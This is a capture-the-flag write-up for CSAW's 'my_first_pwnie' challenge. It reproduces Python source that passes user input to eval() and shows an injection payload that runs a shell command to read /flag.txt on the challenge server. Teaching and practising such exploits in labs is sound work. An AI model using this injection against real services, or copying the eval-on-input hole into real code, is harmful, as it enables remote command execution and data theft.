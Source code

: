# my\_first\_pwnie

> You must be this 👉 high to ride.&#x20;
>
> Note: flag is in `/flag.txt`&#x20;
>
> Author: `ElykDeer`&#x20;
>
> Connect with:&#x20;
>
> `nc intro.csaw.io 31137`&#x20;
>
> [my\_first\_pwnie.py](https://ctf.csaw.io/files/aad33fd8e9d2e834d61f2c3a8aadbf81/my\_first\_pwnie.py?token=eyJ1c2VyX2lkIjoxMzYwLCJ0ZWFtX2lkIjo1NjksImZpbGVfaWQiOjIzfQ.ZQU9TA.zIuM2LRsbqIEf23AgA-zm8GrEO0)

* Let's first using `netcat` in order to understand what the program does.

```
$ nc intro.csaw.io 31137
What's the password?
```

* It asks user to input a password.
* Maybe the `my_first_pwnie.py` script file has the password mentioned somewhere in the code.

### Source code

```python
#!/usr/bin/env python3

# Pwn mostly builds on top of rev.
# While rev is more about understanding how a program works, pwn is more about figuring out how to exploit a program to reach the holy grail: Arbitrary Code Execution
#
# If you can execute arbitrary code on a system, that system might as well be yours...because you can do whatever you want with it! (this is the namesake of "pwn".....if you pwn a system, you own the system)
# Of course, that comes with the limitations of the environment you are executing code in...are you a restricted user, or a super admin?
# Sometimes you can make yourself a super admin starting from being a restricted user.....but we're not gonna do that right now.
#
# For now, I want you to figure out how to execute arbitrary commands on the server running the following code.
#
# To prove to me that you can excute whatever commands you want on the server, you'll need to get the contents of `/flag.txt`

try:
  response = eval(input("What's the password? "))
  print(f"You entered `{response}`")
  if response == "password":
    print("Yay! Correct! Congrats!")
    quit()
except:
  pass

print("Nay, that's not it.")
```

* So the password is `password` but entering it does not give us the flag.
* There is an interesting comment:

```
# To prove to me that you can excute whatever commands you want on the server, you'll need to get the contents of `/flag.txt`
```

* So we have to execute a command on the server to read the `flag.txt` file.

### eval()

* If we look closely at the code, we can see that it uses the `eval()` function.
* This allows user to dynamically execute code during runtime. However when user input is directly passed to the `eval()` function, it can lead to code injection.

### Injection

```python
__import__('os').system('/bin/cat /flag.txt')
```

* Let's provide the injection as input.

```
$ nc intro.csaw.io 31137
What's the password? __import__('os').system('/bin/cat /flag.txt')
csawctf{neigh______}
You entered `0`
Nay, that's not it.
```

### Flag

```
csawctf{neigh______}
```
